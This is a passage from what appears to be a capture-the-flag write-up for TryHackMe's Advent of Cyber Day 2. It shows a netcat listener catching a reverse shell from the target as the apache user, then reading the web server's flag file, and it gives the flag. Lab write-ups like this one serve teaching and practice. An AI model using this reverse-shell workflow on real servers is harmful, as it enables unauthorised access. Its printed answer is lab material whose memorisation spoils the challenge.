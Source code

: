 <center><a href="12.png"><img src="12.png" /></a></center>
<figcaption>Get shell.</figcaption>
</figure>

Now if we look to our terminal, we successfully logged in to the machine's shell.
```bash
kali@kali:~$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.9.2.21] from (UNKNOWN) [10.10.13.59] 40848
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:04:09 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (827): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```

Let's `cat` the `/var/www/flag.txt` to see the flag!
```bash
sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```
The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.